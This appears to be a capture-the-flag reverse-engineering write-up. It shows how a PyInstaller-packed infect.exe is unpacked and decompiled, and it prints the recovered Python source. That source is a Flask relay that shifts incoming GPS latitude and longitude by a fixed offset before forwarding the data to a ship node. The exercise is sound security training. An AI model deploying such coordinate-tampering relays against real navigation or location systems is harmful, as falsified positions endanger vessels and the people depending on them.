

# I Love Reversing

### 1. Run DiEC tools on infect.exe


From the output, the binary was compiled and packed with PyInstaller. In order to reverse engineer the binary, we have to utilize a tool the contents of a PyInstaller compiled executlable file. The tool used is [**pyinstxtractor**](https://github.com/extremecoders-re/pyinstxtractor) which is available in Github
### 2. Run pyinstxtractor with the binary


After running it, there will be extracted pyc file used in the executable and collected in a directory named infect.exe_extracted. Within the directory, we can find out the infect.pyc. Next, we have to decompile the pyc to python source code file in order to understand the behavior.

### 3. Decompile infect.pyc with PyLingual

![[img2.png]]

With using infected.pyc, we chunk it into **PyLingual** (Online Python Decompiler) to view the source code. It will then look like this upon successfully decompiled.



And here is the source code infect.py code:
```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: infect.py
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)
import requests
from flask import Flask, request, jsonify
app = Flask(__name__)
def infect(location_data):
	location_data['latitude'] += 2.593627
	location_data['longitude'] += 2.593627
	return location_data

@app.route('/location_data', methods=['POST'])
def location_data():
	location_data = request.json
	print('Received data from attack instruction PC:', location_data)
	location_data = infect(location_data)
	url = 'http://192.168.101.101:4653/location_data'
	response = requests.post(url, json=location_data)
	print('Response from ship node:', response.text)
	return jsonify({'message': 'Data forwarded to ship node successfully!'})

if __name__ == '__main__':
app.run(host='0.0.0.0', port=4653)
```

This python script serves as a malware web server which runs a flask web server that accepts POST request with JSON payloads. It infects the input data by adding 2.593627 to the GPS latitude and longitude values. Therefore, we got the flag which is `FLAG{2.593627}`
